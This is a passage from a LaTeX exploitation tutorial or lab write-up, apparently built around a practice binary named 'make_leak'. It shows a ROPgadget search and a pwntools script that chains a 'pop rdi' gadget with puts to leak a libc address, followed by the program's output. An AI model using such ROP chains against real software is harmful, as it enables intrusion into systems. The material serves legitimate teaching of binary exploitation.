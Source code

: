 \documentclass{article}
\begin{document}
We'll need a ``pop rdi'' gadget to control the argument to \texttt{puts()}. You
can find one with ROPgadget.

\begin{lstlisting}
> ROPgadget --binary make_leak | grep "pop rdi"
0x0000000000400613 : pop rdi ; ret
> 
\end{lstlisting}

With this, we have everything we need to leak an address, as shown below.

\begin{lstlisting}
> cat make_leak_solution.py 
#!/usr/bin/python
from pwn import *

PUTS_PLT_ADDRESS = 0x400430
PUTS_GOT_ADDRESS = 0x601018
MAIN_ADDRESS     = 0x400566
PUTS_OFFSET      = 0x06f690

rop = "A" * 40

# 0x0000000000400613 : pop rdi ; ret
rop += p64(0x400613) + p64(PUTS_GOT_ADDRESS)

rop += p64(PUTS_PLT_ADDRESS)
rop += p64(MAIN_ADDRESS)

print rop
>
> ./make_leak_solution.py | ./make_leak
Welcome to REFE Corp.
Please sign in with your name.
You tricked us last time with that planted pointer...we won't get fooled again.
Please take a seat, we'll be with you at some point this week.

Welcome to REFE Corp.
Please sign in with your name.
You tricked us last time with that planted pointer...we won't get fooled again.
Please take a seat, we'll be with you at some point this week.
Illegal instruction (core dumped)
> 
\end{lstlisting}

As you can see, the program both leaks an address (which appears in the terminal
as strange characters), and executes \texttt{main()} twice before crashing. From
here, we need only fill in the rest of the exploit from the previous one.
\end{document}
